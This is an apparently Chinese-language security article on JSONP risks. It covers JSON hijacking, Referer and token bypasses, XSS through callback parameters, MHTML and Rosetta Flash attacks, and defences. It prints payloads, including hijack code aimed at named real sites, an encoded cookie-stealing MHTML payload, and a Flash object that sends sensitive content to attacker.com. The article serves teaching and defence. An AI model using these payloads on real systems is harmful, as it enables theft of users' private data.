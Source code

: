 关于 JSONP

JSONP 全称是 JSON with Padding ，是基于 JSON 格式的为解决跨域请求资源而产生的解决方案。他实现的基本原理是利用了 HTML 里 元素标签，远程调用 JSON 文件来实现数据传递。如要在 a.com 域下获取存在 b.com 的 JSON 数据( getUsers.JSON )：
Default
{"id" : "1","name" : "111"}

那么他们可以首先通过 JSONP 的“ Padding ”这个 getUsers.JSON 输出为：
Default
callback({"id" : "1","name" : "111"});

对于实际应用过程中 callback 的名称在后台实现是动态输出的。如上面例子在 PHP 实现：
Default
<?php
//getUsers.php
$callback = $_GET['callback'];
print $callback . '({"id" : "1","name" : "111"});';
?>

然后在 a.com 使用 <script> 进行远程调用,在 Jquery 里可以直接这样调用：
Default
<script type="text/javascript" src="http://mini.jiasule.com/framework/jquery/1.9.1/jquery-1.9.1.js"></script>
<script type="text/javascript">
    $.getJSON("http://www.b.com/getUsers.php?callback=?", function(getUsers){
          alert(getUsers.name);
    });
</script>

然而，安全问题一直都是伴随着业务发展而出现的，JSONP 的出现同样带来了各种各样的安全问题。本文对 JSONP 实现过程中给带来的安全攻防问题做了一些简单介绍。

JSON 劫持

JSON 劫持又为“ JSON Hijacking ”，最开始提出这个概念大概是在 2008 年国外有安全研究人员提到这个 JSONP 带来的风险。其实这个问题属于 CSRF（ Cross-site request forgery 跨站请求伪造）攻击范畴。当某网站听过 JSONP 的方式来快域（一般为子域）传递用户认证后的敏感信息时，攻击者可以构造恶意的 JSONP 调用页面，诱导被攻击者访问来达到截取用户敏感信息的目的。一个典型的 JSON Hijacking 攻击代码：
Default
<script>
function wooyun(v){
    alert(v.username);
}
</script>
<script src="http://js.login.360.cn/?o=sso&m=info&func=wooyun"></script>

这个是在乌云网上报告的一个攻击例子（ WooYun-2012-11284 ）http://www.wooyun.org/bug.php?action=view&id=11284 当被攻击者在登陆 360 网站的情况下访问了该网页时，那么用户的隐私数据（如用户名，邮箱等）可能被攻击者劫持。
虽然这种攻击已经出现了好几年了，但是目前在大的门户网站都还普遍存在的，而且由于安全意识问题很多官方可能还不认为这是一个安全问题，上面提到的例子其实当时在乌云网站上 360 是忽视了的！
当然还是随着安全意识和技术水平的提高，很多甲方公司开始重视此类安全问题，开始着手研究解决方案。其中一个方案就是验证 JSON 文件调用的来源（ Referer ）。这个方案是主要利用了<script>远程加载 JSON 文件时会发送 Referer ，在网站输出 JSON 数据时判断 Referer 是不是白名单合法的就可以进行防御！这个方法是可行的，但是具体实现过程中又容易导致 2 总常见的逻辑问题：
1、Referer 过滤（正则）不严谨
比如 http://www.qq.com/login.php?calback=cb 输出数据时,使用了 Referer 过滤。但是可惜过滤的时候只过滤了 Referer 里是否存在 qq.com 这样的关键词，那么攻击者可以听过构造 URL：http://www.qq.com.attack.com/attack.htm 或者 http://www.attack.com/attack.htm?qq.com 这样的页面来发起攻击实现绕过 Referer 防御。
2、空 Referer
在很多情况下，开发者在部署过滤 Referer 来源时，忽视了一个空 Referer 的过滤。一般情况下浏览器直接访问某 URL 是不带 Referer 的，所以很多防御部署是允许空 Referer 的。恰恰也就是这个忽视，导致了整个防御的奔溃。因为在通过跨协议调用 js 时，发送的 http 请求里 Referer 为空！跨协议调用的一个简单例子：
Default
<iframe src="javascript:'<script>function JSON(o){alert(o.userinfo.userid);}</script><script src=http://www.qq.com/login.php?calback=JSON></script>'"></iframe>

代码里我们使用 调用 javscript 伪协议来实现空 Referer 调用 JSON 文件。

另外一种防御手段就是通过随机 token 来防御，这个技术在 qq 的网站上应用比较多，如：http://r.qzone.qq.com/cgi-bin/tfriend/friend_show_qqfriends.cgi?uin=[QQ号码]&g_tk=[随机token] 来输出 JSON ，同样这个方案也是效的，但是同样可以出现防御实现的不严谨问题。如这个 token 可以暴力。如：
Default
function _Callback(o) {
    alert(o.items[0].uin);
}
for (i = 17008; i < 17009; i++) { //暴力循环调用
    getJSON("http://r.qzone.qq.com/cgi-bin/tfriend/friend_show_qqfriends.cgi?uin=1111111&g_tk=" + i);
}

当然以上的方式是单纯的针对“ JSON 劫持”本身的来展开的各种攻防战。但是在现实里，很多漏洞是配合组合来实现突破的，比如上面提到的限制 Referer+ 部署随机 token 实现都很完美，无懈可击！但是只要在该网站上出现一个 XSS 漏洞，那么利用这个 XSS 漏洞可能让你的防御体系瞬间崩溃！另外这里顺带提一点：以上的方法是一些通用实现“ JSON 劫持”的方法，但是现实中某些浏览器的一些特有的处理机制（如 CSS 加载，错误信息显示等），导致一些类似“ JSON 劫持”（攻击对象不一定是 JSON ）的攻击！

Callback 可定义导致的安全问题

在本文开头介绍 JSON 原理的就说明了可能是为了方便前段开发调用，一般输出时都是可定义的，开头提到的 php 实现的代码：
Default
<?php
//getUsers.php
$callback = $_GET['callback'];
print $callback . '({"id" : "1","name" : "111"});';
?>

这个输出点。
1、Content-Type 与 XSS 漏洞
在早期 JSON 出现时候，大家都没有合格的编码习惯。再输出 JSON 时，没有严格定义好 Content-Type（ Content-Type: application/json ）然后加上 callback 这个输出点没有进行过滤直接导致了一个典型的 XSS 漏洞，上面演示的 getUsers.php 就存在这个问题：
Default
http://127.0.0.1/getUsers.php?callback=<script>alert(/xss/)</script>

对于 Content-Type 来说早期还有一部分人比较喜欢使用 application / javascript 而这个头在 IE 等浏览器下一样可以解析 HTML 导致 XSS 漏洞。对于这种类型的漏洞，防御主要是从两个点去部署的：
a、严格定义 Content-Type: application / json
这样的防御机制导致了浏览器不解析恶意插入的 XSS 代码（直接访问提示文件下载）。但是凡事都有个案，在 IE 的进化过程中就出现过通过一些技巧绕过 Content-Type 防御解析 html ，比如在 IE6、7 等版本时请求的 URL 文件后面加一个 /x.html 就可以解析 html （ http://127.0.0.1/getUsers.php/x.html?callback= ） 具体参考：http://hi.baidu.com/hi_heige/item/f1ecde01c4af3ed61ef04646
b、过滤 callback 以及 JSON 数据输出
这样的防御机制是比较传统的攻防思维，对输出点进行 xss 过滤。又是一个看上去很完美的解决方案，但是往往都是“事与愿违”。当年( 2011 年)一个 utf7-BOM 就复活了 n 个 XSS 漏洞。这种攻击方式主要还是存在与 IE 里(注在 IE 较新版本里已经“修复”) 也就是当我们在 callback 点输出 +/v8 这样的 utf7-BOM 的时候， IE 浏览器会把当前执行的编码认为是 utf7 ,所以我们通过 utf7 提交的 XSS 代码会被自动解码并执行。如：
Default
http://127.0.0.1/getUsers.php?callback=%2B%2Fv8%20%2BADwAaAB0AG0APgA8AGIAbwBkAHkAPgA
8AHMAYwByAGkAcAB0AD4AYQBsAGUAcgB0ACgAMQApA
DsAPAAvAHMAYwByAGkAcAB0AD4APAAvAGIAbwBkAHk
APgA8AC8AaAB0AG0APg-%20

其中：
Default
%2B%2Fv8
%20%2BADwAaAB0AG0APgA8AGIAbwBkAHkAPgA8AHMAY
wByAGkAcAB0AD4AYQBsAGUAcgB0ACgAMQApADsAPAAv
AHMAYwByAGkAcAB0AD4APAAvAGIAbwBkAHkAPgA8AC8
AaAB0AG0APg-%20

URLdecode 为：
Default
+/v8
+ADwAaAB0AG0APgA8AGIAbwBkAHkAPgA8AHMAY
wByAGkAcAB0AD4AYQBsAGUAcgB0ACgAMQApADs
APAAvAHMAYwByAGkAcAB0AD4APAAvAGIAbwBkA
HkAPgA8AC8AaAB0AG0APg-

其中 +/v8  为 utf7-BOM ，后面的为我们注入的 utf-7 编码后的 XSS 代码的：
Default
<htm><body><script>alert(1);</script></body></htm>

[参考：http://hi.baidu.com/hi_heige/item/357831ab6932239a14107346]
这次利用 utf7-BOM 的方法是一个非常有代表性的通用方法，IE 后面的升级也是做一定的防御，另外在开发者角度也给出了防御方法直接强制指定 Content-Type里的编码 ( Content-Type: application/json; charset=utf-8 ) 对于现在的浏览器上，虽然没有比较通用的技巧，但是对于开发者本事过滤的机制一样可能存在各种绕过的可能。
看来上面提到的 a 和 b 两点的防御缺一都可能出问题，那么我们使用“ a + b 方案”，也就是两者都上是不是很安全了不会出现问题了呢？一切皆有可能，我们拭目以待！

其他文件格式（ Content-Type ）与 JSON

1、MHTML 与 JSONP
在 2011 年 IE 曾经出现过一个听过 mhtml 协议解析跨域的漏洞：MHTML Mime-Formatted Request Vulnerability ( CVE-2011-0096 ) https://technet.microsoft.com/library/security/ms11-026 而当时的一个常见利用就是利用 JSONP 调用机制里的 Callback 函数名输出点：
Default
<iframe src="mhtml:http://127.0.0.1/getUsers.php?callback=Content-Type%3A%20multipart%2Frelated%3B%20boundary%3D_boundary_by_mere%0D%0A%0D%0A--_boundary_by_mere%0D%0AContent-Location%3Acookie%0D%0AContent-Transfer-
Encoding%3Abase64%0D%0A%0D%0APGJvZHk%2BDQo8aWZyYW1lIGlkPWlmciBzcmM9Imh0dHA6Ly93d3cuODB2d
WwuY29tLyI%2BPC9pZnJhbWU%2BDQo8c2NyaXB0Pg0KYWxlcnQoZG9jdW1lbnQuY29va2ll
KTsNCmZ1bmN0aW9uIGNyb3NzY
29va2llKCl7DQppZnIgPSBpZnIuY29udGVudFdpbmRvdyA%2FIGlmci5jb250ZW50V2luZG93I
DogaWZyLmNvbnRlbnREb2N1bWVudDsNCmFsZXJ0KGlmci5
kb2N1bWVudC5jb29raWUpDQp9DQpzZXRUaW1lb3V0KCJjc
m9zc2Nvb2tpZSgpIiwxMDAwKTsNC
jwvc2NyaXB0PjwvYm9keT4NCg%3D%3D%0D%0A--_boundary_by_mere--%0D%0A!cookie"></iframe>

[详见：《Hacking with mhtml protocol handler》http://www.80vul.com/mhtml/Hacking%20with%20mhtml%20protocol%20handler.txt]
这个点就充分利用了 callback 输出点直接输出一个 mhtml 文件格式，然后利用 调用 mhtml 标签解析并执行 html 及 javascript 代码，这也就是一个通用性的 XSS 漏洞（ UXSS ），随后微软紧急推出了解决方案及漏洞补丁程序！而对于开发者防御而已在微软推出安全补丁之前这个漏洞影响 Google 等国际大型网站，到时 Google 为了防御这类补丁，启用的防御措施是，在 JSON 输出 callback 时，在文件开头增加了多个换行回车让远程 mhtml 调用时解析失败。
在攻击角度来说，这个充分利用了计算机体系里各种文件格式识别机制，这个也和 Callback 直接在 json 文件开头输出的突然优势！在这个思维的引导下，后面还出现各种各样的文件格式加载带来的安全问题，比如 CSS 文件格式加载导致的类“ JSON 劫持”的安全问题、JS 加载及各种文件格式编码带来的安全问题等等。历史进程里往往会出现各种惊人的相识，JSONP 与文件格式的各种传奇还在上演…

2、FLASH 与 JSONP
该来的始终会来，只是没想到相似的场景上演到这么快!就在最近的一次 flash 安全更新 ( security bulletin APSB14-17[http://helpx.adobe.com/security/products/flash-player/apsb14-17.html] ) 里修复了一个安全漏洞：
These updates include additional validation checks to ensure that Flash Player rejects malicious content from vulnerable JSONP callback APIs ( CVE-2014-4671 ).
而这个漏洞因影响到 Google、Facebook、Tumblr 等国际大网站而倍受国内外媒体的关注。
而这个攻击技术就和 JSONP 的 callback 点息息相关. 这个问题主要存在 HTML 通过、<embed>、<object>调用远程 flash 文件时，会直接忽视 Content-Type 而 JSONP 的 callback 输出一般都在文件开头就输出，那么完全可以通过 callback 点输出一个 swf 的文件，然远程 html 调用并运行 swf 文件。如：
Default
<script>
// from http://50.56.33.56/blog/?p=242
var flashvars = {};
var params = {};                   
var attributes = {};
var url="http://127.0.0.1/getUsers.php?callback=CWS%07%AA%01%00%00x%DADP%C1N%021%14%9C%ED%22-j0%21%24%EB%81%03z%E3%E2%1F%18XI%88%1E%607%C0%C1%8B%D9%ACP%91X%ECf%A9%01%BF%40N%1C%F7%E6%DD%CF%F1%8F%F0%B5K%E2%3BL%DFL%DA%E9%9B%B7%05%FF%05%82%0Chz%E8%B3%03U%AD%0A%AA%D8%23%E8%D6%9B%84%D4%C5I%12%A7%B3%B7t%21%D77%D3%0F%A3q%A8_%DA%0B%F1%EE%09gpJ%B2P%FA9U0%2FHr%AD%0Df%B9L%8D%9C%CA%AD%19%2C%A5%9A%C3P%87%7B%A9%94not%AE%E6%ED%2Bd%B96%DA%7Cf%12%ABt%F9%8E4%CB%10N%26%D2%C4%B9%CE%06%2A%5D%ACQ0%08%B4%1A%8Do%86%1FG%BC%96%93%F6%C2%0E%C9%3A%08Q%5C%83%3F2%80%B7%7D%02%2B%FF%83%60%DC%A6%11%BE%7BU%19%07%F6%28%09%1B%15%15%88%13Q%8D%BE%28ID%84%28%1F%11%F1%82%92%88%FD%B9%0D%EFw%C0V34%8F%B3%145%88Zi%8E%5E%14%15%17%E0v%13%AC%E2q%DF%8A%A7%B7%01%BA%FE%1D%B5%BB%16%B9%0C%A7%E1%A4%9F%0C%C3%87%11%CC%EBr%5D%EE%CA%A5uv%F6%EF%E0%98%8B%97N%82%B9%F9%FCq%80%1E%D1%3F%00%00%00%FF%FF%03%00%84%26N%A8";
swfobject.embedSWF(url, "content", "400", "200", "10.0.0", "expressInstall.swf", flashvars, params, attributes);
</script>

这样早在 2012 年提出的通过 callback 输出的 swf 文件流，的实际效果是在被攻击的网站上存放了一个恶意的 swf 文件，而 html 远程调用这个 swf 文件可以直接导致 CSRF 攻击.
[具体上传 flash 文件带来的 CSRF 攻击请参考我写的《 Flash+Upload Csrf 攻击技术》 http://blog.knownsec.com/2014/06/flashupload_csrf_attacking/]
细心的朋友可能发现上面代码里 callback 输出的 swf 文件流里存着各种各样的特殊字符，这个对于上面提到的“ b、过滤 callback 以及 JSON 数据输出”防御方案直接给拦截了，对于 Goolge 、Facebook 这样久经考验的大网站来说，防御应该不在话下！
在 flash 的更新“ security bulletin APSB14-17 ”发布后，该漏洞发现者给出了详细的漏洞细节其中一个亮点就是作者实现了一个纯 alphanumeric 输出的 swf 文件的方法，如：
Default
<object type="application/x-shockwave-flash"
data="https://vulnerable.com/endpoint?callback=CWSMIKI0hCD0Up0IZ
UnnnnnnnnnnnnnnnnnnnUU5nnnnnn3Snn7iiudIbEAt333swW0ssG03sDDtDDDt0
333333Gt333swwv3wwwFPOHtoHHvwHHFhH3D0Up0IZUnnnnnnnnnnnnnnnnnnnUU
5nnnnnn3Snn7YNqdIbeUUUfV13333333333333333s03sDTVqefXAxooooD0Ciud
IbEAt33swwEpt0GDG0GtDDDtwwGGGGGsGDt33333www033333GfBDTHHHHUhHHHe
RjHHHhHHUccUSsgSkKoE5D0Up0IZUnnnnnnnnnnnnnnnnnnnUU5nnnnnn3Snn7YN
qdIbe13333333333sUUe133333Wf03sDTVqefXA8oT50CiudIbEAtwEpDDG033sD
DGtwGDtwwDwttDDDGwtwG33wwGt0w33333sG03sDDdFPhHHHbWqHxHjHZNAqFzAH
ZYqqEHeYAHlqzfJzYyHqQdzEzHVMvnAEYzEVHMHbBRrHyVQfDQflqzfHLTrHAqzf
HIYqEqEmIVHaznQHzIIHDRRVEbYqItAzNyH7D0Up0IZUnnnnnnnnnnnnnnnnnnnU
U5nnnnnn3Snn7CiudIbEAt33swwEDt0GGDDDGptDtwwG0GGptDDww0GDtDDDGGDD
GDDtDD33333s03GdFPXHLHAZZOXHrhwXHLhAwXHLHgBHHhHDEHXsSHoHwXHLXAwX
HLxMZOXHWHwtHtHHHHLDUGhHxvwDHDxLdgbHHhHDEHXkKSHuHwXHLXAwXHLTMZOX
HeHwtHtHHHHLDUGhHxvwTHDxLtDXmwTHLLDxLXAwXHLTMwlHtxHHHDxLlCvm7D0U
p0IZUnnnnnnnnnnnnnnnnnnnUU5nnnnnn3Snn7CiudIbEAtuwt3sG33ww0sDtDt0
333GDw0w33333www033GdFPDHTLxXThnohHTXgotHdXHHHxXTlWf7D0Up0IZUnnn
nnnnnnnnnnnnnnnnUU5nnnnnn3Snn7CiudIbEAtwwWtD333wwG03www0GDGpt03w
DDDGDDD33333s033GdFPhHHkoDHDHTLKwhHhzoDHDHTlOLHHhHxeHXWgHZHoXHTH
No4D0Up0IZUnnnnnnnnnnnnnnnnnnnUU5nnnnnn3Snn7CiudIbEAt33wwE03GDDG
wGGDDGDwGtwDtwDDGGDDtGDwwGw0GDDw0w33333www033GdFPHLRDXthHHHLHqee
orHthHHHXDhtxHHHLravHQxQHHHOnHDHyMIuiCyIYEHWSsgHmHKcskHoXHLHwhHH
voXHLhAotHthHHHLXAoXHLxUvH1D0Up0IZUnnnnnnnnnnnnnnnnnnnUU5nnnnnn3
SnnwWNqdIbe133333333333333333WfF03sTeqefXA888ooooooooooooooooooo
oooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooo
oooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooo
ooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooo8
88888880Nj0h"
style="display: none">
<param name="FlashVars"
value="url=https://vulnerable.com/account/sensitive_content_logged_in
&exfiltrate=http://attacker.com/log.php">
</object>

具体请参考：http://miki.it/blog/2014/7/8/abusing-jsonp-with-rosetta-flash/
所以对于纯 alphanumeric 的输出来说，那些针对 XSS 的过滤显然是可以直接忽略，这个漏洞也就是证明了上面我们提到的“ a + b 方案”直接绕过了！

防御

通过上面的攻防对抗演练，很多开发者可能会感觉有点悲剧的味道，各种防御机制好像都有办法绕过。这里我想到一个真理：没有绝对的安全！那么我们防御的意义在哪里呢？我认为防御的意义就是虽然没办法让开发的程序最安全（绝对安全），但是可以让它更安全！提高攻击者的技术成本的门槛是安全防御的一个主要的重要的方向。我们回到具体的 JSONP 防御上可以总结如下几点：
1、严格安全的实现 CSRF 方式调用 JSON 文件：限制 Referer 、部署一次性 Token 等。
2、严格安装 JSON 格式标准输出 Content-Type 及编码（ Content-Type : application/json; charset=utf-8 ）。
3、严格过滤 callback 函数名及 JSON 里数据的输出。
4、严格限制对 JSONP 输出 callback 函数名的长度(如防御上面 flash 输出的方法)。
5、其他一些比较“猥琐”的方法：如在 Callback 输出之前加入其他字符(如：/**/、回车换行)这样不影响 JSON 文件加载，又能一定程度预防其他文件格式的输出。还比如 Gmail 早起使用 AJAX 的方式获取 JSON ，听过在输出 JSON 之前加入 while(1) ;这样的代码来防止 JS 远程调用。